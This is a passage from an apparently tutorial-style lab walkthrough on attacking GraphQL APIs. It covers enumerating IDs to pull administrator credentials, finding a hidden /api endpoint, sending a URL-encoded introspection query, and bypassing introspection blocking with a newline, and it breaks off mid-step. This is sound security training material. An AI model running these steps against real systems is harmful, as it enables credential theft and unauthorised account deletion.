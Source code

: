     Select the GraphQL tab and test alternative values for the id variable until the API returns the administrator's credentials. In this case, the administrator's ID is 1.

    Log in to the site as the administrator, go to the Admin panel, and delete carlos to solve the lab.

Lab: Finding a hidden GraphQL endpoint



Find the hidden GraphQL endpoint

    In Repeater, send requests to some common GraphQL endpoint suffixes and inspect the results.

    Note that when you send a GET request to /api the response contains a "Query not present" error. This hints that there may be a GraphQL endpoint responding to GET requests at this location.

    Amend the request to contain a universal query. Note that, because the endpoint is responding to GET requests, you need to send the query as a URL parameter.

    For example: /api?query=query{__typename}.

    Notice that the response confirms that this is a GraphQL endpoint:
    {
      "data": {
        "__typename": "query"
      }
    }
                                    

Overcome the introspection defenses

    Send a new request with a URL-encoded introspection query as a query parameter.

    To do this, right-click the request and select GraphQL > Set introspection query:

    /api?query=query+IntrospectionQuery+%7B%0A++__schema+%7B%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
                                    

    Notice from the response that introspection is disallowed.

    Modify the query to include a newline character after __schema and resend.

    For example:
